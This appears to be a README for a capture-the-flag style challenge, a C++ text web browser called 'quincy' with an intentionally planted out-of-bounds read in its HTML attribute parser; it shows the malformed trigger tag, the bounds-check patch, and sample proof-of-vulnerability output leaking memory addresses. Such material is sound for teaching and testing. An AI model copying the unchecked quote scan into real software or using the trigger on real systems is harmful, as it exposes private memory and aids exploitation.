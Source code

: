 # quincy

Quincy is a text-based web browser. It fetches documents over HTTP, parses HTML,
and pretty-prints it to make it easy to read.

## concept

Connect, send a command, get result.

The challenge, poller, and PoV do not have any persistent data.

## commands

* `parse-doc` : fetches, parses, and pretty-prints an HTML document from a URL
* `fetch` : fetches and verbatim-prints the contents at a URL
* `parse-url` : parses and inspects a URL

## polling and other testing

The poller (and proof-of-vulnerability, described below) run a web server
using the Sinatra framework on a separate thread in the poller/PoV process.
The challenge returns the address the connection comes from to make calling
back to this web server easier.

Most activities in the poller should have documentation or be very
self-descriptively-named. The poller does not store any data on disk.

Running the poller with a filename in the `DUMP_EXAMPLE` environment
variable will also dump the poller's traffic into a file suitable as
an example for a fuzzer.

## variant and vulnerability

The vulnerability is in the HTML parser. Attributes without paired
quotes are not parsed correctly, allowing a carefully constructed document
to leak private memory.

For reference, an HTML tag looks like this:

```html
<br data-asdf="qqqq" data-ink='emerald of chivor'>
```

The `data-asdf="asdf"` part is an attribute, as is
and `data-ink='emerald of chivor'`. The attribute names are `data-asdf` and
`data-ink`, and their corresponding attribute values are `qqqq` and
`emerald of chivor`, respectively. The single- or double-quotation marks
must be matched, but there's no semantic difference between the two.

### vulnerability

The `Attribute` constructor in `html/attribute.cpp` is the vulnerable part of
the HTML parser. It correctly bounds-checks an attribute name, but does not
bounds check while looking for the quote to end an attribute value. As such,
the following will not be parsed correctly:

```html
<marquee class='heyyyyyyyyyyyyy>let's go</marquee>
```

When parsing beyond the end of the tag, the memory there almost always has a
private address or some other private data, and this ends up as part of the
attribute, and eventually gets pretty-printed to the connecting client.

### reference patch

The fix is to bounds-check while looking for the closing quote:

```c++
  while (quot != base[scan]) {
    scan++;
#ifdef PATCH_STOP_PAST_END_OF_ATTRS
    if (scan > end_of_attrs) {
      valid = false;
      return;
    }
#endif
  }
```

### proof of vulnerability

The Proof of Vulnerability (PoV) starts a web server using Sinatra, in a
separate thread in the PoV process, just like the poller. Once this has had a
second to start, it then connects to the running challenge, and requests that
it `parse-doc` the malformed document to trigger the vulnerability.

When receiving the private data, the PoV doesn't have a way to determine which
parts are within the challenge's memory space, so it prints out the whole range
in 64-bit chunks in the hope that at least one is an address.

For example, a provisionally-successful PoV may print out:

```
INFO: ["  <html>", "   <head>", "     <title>", "       cool", "    </title>", "  </head>", "  <body>", "     <hr>", "    <marquee ", "    class='heyyyyyyyyyyyyy\x00\x00!\x00\x00\x00\x00\x00\x00\x00pkH\xEC\x00V\x00\x00`kH\xEC\x00V\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x91\x00\x00\x00\x00\x00\x00\x00\xB8\xE4\xA4\xEA\x00V\x00\x00\x01\x00\x00\x00\x01\x00\x00\x00\x10\xE8\xA4\xEA\x00V\x00\x00P\xE4\xA4\xEA\x00V\x00\x00\xB0\x81H\xEC\x00V\x00\x00\x02\x00\x00\x00\x00\x00\x00\x00hr\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00\x00\x00\x00\x00\x00\x00\xD8\x81H\xEC\x00V\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00\x00\x00\x00\x00\x00\x00\x91\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00opener: Tag(name: `body` self_closing: 0) closer: CloseTag(name: `body`) children: 7 nodes)\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00'", "     >", "       let's go", "    </marquee>", "    <hr>", "  </body>", " </html>"]
DEBUG: sorry in advance for the next 307 addresses
ADDRESS=0000000000000021
ADDRESS=7000000000000000
ADDRESS=6b70000000000000
ADDRESS=486b700000000000
ADDRESS=ec486b7000000000
ADDRESS=00ec486b70000000
ADDRESS=5600ec486b700000
ADDRESS=005600ec486b7000
ADDRESS=00005600ec486b70
ADDRESS=6000005600ec486b
ADDRESS=6b600000[...]
```

The first thing to note is the `<marquee` tag has a, frankly, absurd `class`
attribute value, compared to the one above.

The second thing to notice is the large number of addresses that are sent to
stdout.
These addresses can be checked against the running challenge using the `pmap`
command-line tool, or the `/proc` filesystem. In the container running the
challenge:

```
root@1aca1ac55eb4:/mnt# PORT=3017 ./variants/unpatched/build/quincy
^Z
[1]+  Stopped                 PORT=3017 ./variants/unpatched/build/quincy
```

After the PoV runs successfully, use ctrl-z to pause the challenge, and use
`ps` to determine its pid:

```
root@1aca1ac55eb4:/mnt# ps
  PID TTY          TIME CMD
    1 pts/0    00:00:00 bash
  253 pts/0    00:00:00 quincy
  254 pts/0    00:00:00 ps
```

In this case, the PID is "253". With that, we can use `pmap PID` to figure out
what address ranges are what:

```
root@1aca1ac55eb4:/mnt# pmap 253
253:   ./variants/unpatched/build/quincy
00005600ea7cc000    520K r-x-- quincy
00005600eaa4d000      8K r---- quincy
00005600eaa4f000      4K rw--- quincy
00005600ec46f000    132K rw---   [ anon ]
00007f722ea8a000   1948K r-x-- libc-2.27.so
00007f722ec71000   2048K ----- libc-2.27.so
00007f722ee71000     16K r---- libc-2.27.so
00007f722ee[...]
```

Or, `cat /proc/PID/maps` will show equivalent information if `pmap` isn't
available:

```
root@1aca1ac55eb4:/mnt# cat /proc/253/maps
5600ea7cc000-5600ea84e000 r-xp 00000000 00:62 486                        /mnt/variants/unpatched/build/quincy
5600eaa4d000-5600eaa4f000 r--p 00081000 00:62 486                        /mnt/variants/unpatched/build/quincy
5600eaa4f000-5600eaa50000 rw-p 00083000 00:62 486                        /mnt/variants/unpatched/build/quincy
5600ec46f000-5600ec490000 rw-p 00000000 00:00 0                          [heap]
7f722ea8a000-7f722ec71000 r-xp 00000000 08:01 2884028                    /lib/x86_64-linux-gnu/libc-2.27.so
7f722ec71000-7f722ee71000 ---p 001e7000 08:01 2884028                    /lib/x86_64-linux-gnu/libc-2.27.so
7f722ee71000-7f722ee75000 r--p 001e7000 08:01 2884028                    /lib/x86_64-linux-gnu/libc-2.27.so
7f722ee[...]
```

In this case, the address range starting at `00005600ea7cc000` is the executable
part of the binary, and we see an address in that range in the spew from the
PoV:

```
ADDRESS=00005600ec486b70
```

To resume the challenge binary, use the `fg` command to bring it to the
foreground. From there it can be stopped with ctrl-c as normal:

```
root@1aca1ac55eb4:/mnt# fg
PORT=3017 ./variants/unpatched/build/quincy
^C
root@1aca1ac55eb4:/mnt# ps
  PID TTY          TIME CMD
    1 pts/0    00:00:00 bash
  257 pts/0    00:00:00 ps
root@1aca1ac55eb4:/mnt#
```

When running the same PoV against the patched binary, it simply doesn't work:

```
INFO: ["  <html>", "   <head>", "     <title>", "       cool", "    </title>", "  </head>", "  <body>", "     <hr>", "    <marquee>", "       let's go", "    </marquee>", "    <hr>", "  </body>", " </html>"]
INFO: ruby pov.rb
== Sinatra has ended his set (crowd applauds)[2020-01-22 19:11:27] INFO  going to shutdown ...
[2020-01-22 19:11:27] INFO  WEBrick::HTTPServer#start done.
== Sinatra has ended his set (crowd applauds)

Traceback (most recent call last):
        9: from pov.rb:165:in `<main>'
        8: from pov.rb:79:in `run!'
        7: from /usr/local/lib/ruby/2.6.0/timeout.rb:108:in `timeout'
        6: from /usr/local/lib/ruby/2.6.0/timeout.rb:33:in `catch'
        5: from /usr/local/lib/ruby/2.6.0/timeout.rb:33:in `catch'
        4: from /usr/local/lib/ruby/2.6.0/timeout.rb:33:in `block in catch'
        3: from /usr/local/lib/ruby/2.6.0/timeout.rb:93:in `block in timeout'
        2: from pov.rb:80:in `block in run!'
        1: from pov.rb:121:in `parse_doc'
pov.rb:140:in `assert': Couldn't find the payload in the expected place (RuntimeError)
root@0bb5f6500e26:/pov#
```

Note how instead of an absurd `class` attribute value on the `<marquee>` tag,
no attributes are pretty-printed.
